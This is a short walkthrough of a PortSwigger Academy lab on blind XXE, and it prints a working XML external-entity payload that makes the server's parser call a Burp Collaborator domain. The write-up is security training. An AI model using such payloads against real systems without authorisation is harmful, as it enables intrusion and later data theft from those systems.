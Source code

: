
# Blind XXE with out-of-band interaction

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

---------------------------------------------

References: 

- https://portswigger.net/web-security/xxe/blind



![img](images/Blind%20XXE%20with%20out-of-band%20interaction/1.png)

---------------------------------------------


Using the same payload as the last lab but changing the url for a Collaborator url we have this payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://3vzysj2gzhhn64eedhoks71zjqphd71w.oastify.com"> ]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```



![img](images/Blind%20XXE%20with%20out-of-band%20interaction/2.png)


And there are requests in the Collaborator tab:



![img](images/Blind%20XXE%20with%20out-of-band%20interaction/3.png)
